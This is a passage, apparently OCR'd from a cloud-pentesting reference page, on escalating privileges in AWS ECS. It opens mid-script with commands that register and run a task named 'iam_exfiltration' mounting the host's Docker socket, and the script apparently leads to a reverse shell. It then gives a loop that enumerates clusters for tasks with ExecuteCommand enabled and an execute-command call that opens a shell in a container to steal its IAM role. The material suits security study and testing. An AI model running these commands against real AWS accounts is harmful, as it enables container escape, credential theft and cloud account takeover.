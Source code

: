 ```bash
        ]
    }
]' > /tmp/task.json

printf '[
    {
        "name": "docker-socket",
        "host": {
            "sourcePath": "/var/run/docker.sock"
        }
    }
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
    --cpu 256 --memory 512 \
    --requires-compatibilities '["EC2"]' \
    --container-definitions file:///tmp/task.json \
    --volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
    --launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```

### `ecs:ExecuteCommand`, `ecs:DescribeTasks`` `**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

An attacker with the **`ecs:ExecuteCommand`, `ecs:DescribeTasks` ** can **execute commands** inside a running container and exfiltrate the IAM role attached to it (you need the describe permissions because it's necessary to run `aws ecs execute-command`).\
However, in order to do that, the container instance need to be running the **ExecuteCommand agent** (which by default isn't).

Therefore, the attacker cloud try to:

* **Try to run a command** in every running container

```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
   echo "Cluster $cluster"
   for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
      echo "  Task $task"
      # If true, it's your lucky day
      aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
   done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
   --command "sh" \
   --cluster "$CLUSTER_ARN" \
   --task "$TASK_ARN"
```
